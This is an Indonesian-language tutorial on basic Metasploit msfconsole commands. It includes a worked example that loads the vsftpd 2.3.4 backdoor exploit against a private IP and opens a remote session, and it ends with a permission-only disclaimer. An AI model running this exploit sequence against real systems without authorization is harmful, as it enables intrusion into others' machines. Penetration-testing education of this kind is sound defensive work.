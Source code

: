 # Perintah Dasar MSFconsole (Metasploit Console)

## A. Pengantar

`msfconsole` adalah antarmuka CLI utama dalam Metasploit Framework. Untuk bisa menggunakan Metasploit secara efektif, penting untuk menguasai perintah-perintah dasarnya.

## B. Menjalankan `msfconsole`

```
msfconsole
```

Setelah dijalankan, kamu akan masuk ke CLI Metasploit:

```
msf6 >
```

## C. Daftar Perintah Dasar yang Wajib Diketahui

| Perintah | Fungsi |
|:--:|:--:|
| `help` atau `?`	| Menampilkan semua perintah yang tersedia |
| `search <keyword>` | Mencari `exploit`, `payload`, `auxiliary`, `dll` |
| `use <nama_modul>` | Memilih modul tertentu untuk digunakan |
| `info` |	Menampilkan informasi detail dari modul yang sedang dipilih |
| `show options` | Menampilkan parameter yang bisa diatur pada modul |
| `set <parameter> <nilai>` |	Mengatur parameter (contoh: `RHOSTS`, `LHOST`, `PAYLOAD`) |
| `unset <parameter>`	| Menghapus nilai parameter yang telah diatur |
| `show payloads	`| Menampilkan semua payload yang kompatibel |
| `show exploits`	| Menampilkan semua exploit yang tersedia |
| `show auxiliary` | Menampilkan modul bantu seperti scanner |
| `exploit` atau `run` | Menjalankan modul exploit |
| `back` | Kembali ke menu utama dari modul |
| `exit` atau `quit` | Keluar dari msfconsole |

## D. Contoh Penggunaan Sederhana

```
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 192.168.1.10
set LHOST 192.168.1.5
exploit
```

## E. Perintah Session

Jika exploit berhasil, biasanya akan membuka session:

| Perintah | Fungsi |
|:--:|:--:|
| `sessions` | Menampilkan daftar sesi aktif |
| `sessions -i <id>`	| Masuk ke session yang aktif |
| `background`	| Menyimpan session ke latar belakang |
| `sessions -k <id>` | Menghentikan session tertentu |

## F. Tips Tambahan

- Gunakan `tab` untuk auto-complete.
- Gunakan `Ctrl + C` untuk menghentikan exploit yang sedang berjalan.
- Gunakan `jobs` dan `kill <id>` untuk melihat dan menghentikan job background.

> Gunakan hanya untuk pembelajaran dan pada sistem yang kamu punya izin untuk uji coba.
